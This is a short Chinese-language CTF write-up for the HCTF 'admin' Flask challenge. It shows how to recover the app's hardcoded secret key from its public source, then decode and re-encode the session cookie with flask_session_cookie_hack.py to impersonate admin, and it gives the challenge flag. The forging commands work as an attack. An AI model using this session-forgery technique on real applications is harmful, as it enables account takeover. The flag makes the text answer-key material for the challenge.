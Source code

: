 ```yaml
---
Author: SuperJason
Date: 2021-01-18
---
```


## flag
`flag{518a6b39-0416-4b19-85d5-477975f31b6e}`

## 思路
1. 访问环境，源码提示需要管理员权限。注册admin提示账户已注册，随意注册一个test账户，在修改密码界面的源码提示了github仓库https://github.com/woadsl1234/hctf_flask/   
   ![](../images/hctf-admin-1.png)
2. 源码发现利用了flask框架，加密key为ckj123，利用cookie伪造admin会话。代码和解析后的内容如下。  
```python flask_session_cookie_hack.py decode -c {session}```
```b'{"_fresh":true,"_id":{" b":"ZDA5ZDkwMjhhNWFiNTgyMGY3YmM0MzBlMDA3YWU4NTU5Nzg5YjM1OGQ0NzRhOWRmNzJlNTJlMjViMzdiZDFhMTU3Y2Q3M2NkZGQ2YWZhZTBlYmJhNzBkMDJlMjdmOTFmZjEzNTQ3YzAxZWRjNjE3ZjVlYzFmYmNmNzU1OWRmN2Y="},"csrf_token":{" b":"MDk4N2FlYWNjYTViYTkzYmZhOWNkMTMzNjVjNGZmNDZjNjA3MWNmZg=="},"image":{" b":"MlVBWA=="},"name":"test","user_id":"10"}'```
   ![](../images/hctf-admin-2.png)
3. 改为admin后加密，这里通过decode得到的json数据需要适当修改一下，实际载荷如下。  
``` python .\N1BOOK\scripts\flask_session_cookie_hack.py encode -t "{'_fresh': True, '_id': b'ca73d01f58fe172c279fdb1026ba1202390ee0e60b049380c8785511afd9560104b61fa487c4bcb293fc463ef1548d3cad028ce1b5ff4922ab5246e4105a0a33', 'csrf_token': b'bcb966803bad1e8b020d5b7cf5e843fb157ef072', 'image': b'Av32', 'name': 'admin', 'user_id': '10'}" -s ckj123```
   ![](../images/hctf-admin-3.png)
4. 修改cookie后，获得flag
   ![](../images/hctf-admin-4.png)

## 总结
- 源码分析
- flask会话伪造